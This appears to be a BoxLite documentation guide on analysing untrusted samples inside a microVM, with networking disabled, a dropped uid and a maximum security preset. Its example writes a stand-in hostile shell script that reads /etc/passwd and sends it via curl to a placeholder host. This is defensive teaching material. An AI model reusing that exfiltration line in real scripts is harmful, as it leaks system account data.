

**Outcome:** an analysis bench where an untrusted tool processes an untrusted input and returns only a structured verdict.

**Level:** intermediate · **Time:** ~15 minutes · **Pattern:** multi-tenant platform.

## When to use this

Two things you did not write meet in one place: **an untrusted tool** and **an untrusted input**. Malware analysis, a file-format parser fed a hostile sample, an unaudited third-party scanner, a linter someone attached to a support ticket.

The VM boundary already means a crash or a `rm -rf` cannot reach the host. What it does not decide on its own is whether that tool can *phone home*. A parser that reads your sample and posts it somewhere has not escaped anything — it simply used the network it was given.

This guide stacks the three controls that close that gap:

| Control | What it stops | How |
|---|---|---|
| Network policy | Exfiltration and call-backs | `NetworkSpec(mode="disabled")`, or an egress allowlist |
| Privilege drop | Writes and reads outside the work area | `user="1000:1000"` |
| OS-level sandbox | Syscall and resource abuse around the VM | `SecurityOptions.maximum()` |

## Architecture



The sample goes in explicitly, the verdict comes out explicitly, and there is no third path — no network, no host filesystem, no shared kernel.

## Prerequisites

- BoxLite installed and a working virtualization host — see [Installation](/getting-started/installation).
- An image containing whatever tool you intend to run. This guide uses `alpine:latest` with `file`.

## Build it

```python
import asyncio

from boxlite import SimpleBox, NetworkSpec, SecurityOptions
from boxlite import AdvancedBoxOptions


async def scan_untrusted(sample_host_path: str) -> dict:
    """Run an untrusted tool over an untrusted sample and return a verdict."""
    async with SimpleBox(
        image="alpine:latest",
        # 1) No network at all — exfiltration and call-backs have nowhere to go
        network=NetworkSpec(mode="disabled"),
        # 2) Drop privileges: run as a non-root uid:gid
        user="1000:1000",
        # 3) Tightest OS-level sandbox around the VM
        advanced=AdvancedBoxOptions(security=SecurityOptions.maximum()),
    ) as box:
        # 4) The sample enters explicitly — copy_in is async, always await it
        await box.copy_in(sample_host_path, "/work/sample")

        # 5) Run the tool. exec does not raise on a non-zero exit; read it yourself.
        result = await box.exec("sh", "-c", "ls -l /work/sample; file /work/sample")

        return {
            "exit_code": result.exit_code,
            "stdout": result.stdout,
            "stderr": result.stderr,
        }


async def main() -> None:
    # Stand-in for a real untrusted sample
    with open("/tmp/untrusted_sample.bin", "wb") as handle:
        handle.write(b"#!/bin/sh\ncurl http://example.invalid/$(cat /etc/passwd)\n")

    try:
        report = await scan_untrusted("/tmp/untrusted_sample.bin")
        print("exit_code:", report["exit_code"])
        print(report["stdout"])
    except RuntimeError as exc:
        print(f"sandbox failed to start: {exc}")


asyncio.run(main())
```

When the tool genuinely needs the network — to refresh a rule database, say — swap the total block for a narrow allowlist:

```python
network=NetworkSpec(mode="enabled", allow_net=["updates.example.com"])
```

Every other host then resolves to `0.0.0.0`: the lookup succeeds and leads nowhere. Parameter tables are on [Network access](/manage-sandbox/network-access#egress-allowlist-network-networkspec) and [Secrets and hardening](/manage-sandbox/secrets-and-security).

## Run it

```bash
python scan.py
```

```text
exit_code: 0
-rw-r--r--    1 1000     1000            48 Jan  1 00:00 /work/sample
/work/sample: POSIX shell script, ASCII text executable
```

Note the ownership in the listing: the tool ran as uid 1000, not root. The `curl` line inside the sample is inert — with `mode="disabled"` there is no interface to use.

## Trust and limits

- **What the boundary covers.** The tool runs on its own kernel and filesystem with its own resource budget, as a non-root user, with no network. Its only outputs are the exit code and the streams you read.
- **Isolation and containment are different properties.** The microVM stops damage; the network policy stops exfiltration. A default box has full outbound access — that is convenient for most use cases here and wrong for this one. Set the network explicitly here.
- **`user=` labels the process, it is not a full identity boundary.** It stops casual writes outside the work area. It is one layer among three, not a substitute for the network policy or the VM.
- **`security=` is not a top-level keyword.** It must be wrapped: `advanced=AdvancedBoxOptions(security=...)`. Passing it directly raises `TypeError`. The presets are `development()`, `standard()`, and `maximum()`; there is no `minimum()`.
- **Blocked is not the same as failed.** With egress narrowed, a request to a blocked host resolves to `0.0.0.0` and then fails to connect — you will see a connection error, not a DNS error. Do not read that as "the tool is broken".
- **`exec` returns failure as data.** A scanner exiting non-zero is a normal result here. Read `exit_code`; nothing is raised.

## Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| `TypeError: BoxOptions.__new__() got an unexpected keyword argument 'security'` | `security=` is not a top-level parameter | Wrap it: `advanced=AdvancedBoxOptions(security=SecurityOptions.maximum())` |
| `AttributeError: minimum` on `SecurityOptions` | That preset does not exist | Use `development()`, `standard()`, or `maximum()` |
| The sample is not in the box | `copy_in` is a coroutine that was never awaited | `await box.copy_in(...)` |
| The tool reports a connection error, not a DNS error | The host was sinkholed to `0.0.0.0`, so the lookup succeeded | Expected with an allowlist; add the host if it is legitimate |
| Permission denied writing outside `/work` | Privileges were dropped as intended | Write to `/work`, or widen `user=` deliberately |

## Next steps

- **Apply the same three controls elsewhere.** Any use case here that runs model-generated code can adopt them — start with [Build a code interpreter](/use-cases/code-interpreter).
- **Harden a CI pipeline.** [Review untrusted pull requests](/use-cases/sandboxed-ci) needs `github.com` and a package mirror allowed, and nothing else.
- **Keep credentials out of the box.** When a tool must authenticate, inject the value at the proxy instead of inside the sandbox — [Secrets and hardening](/manage-sandbox/secrets-and-security).
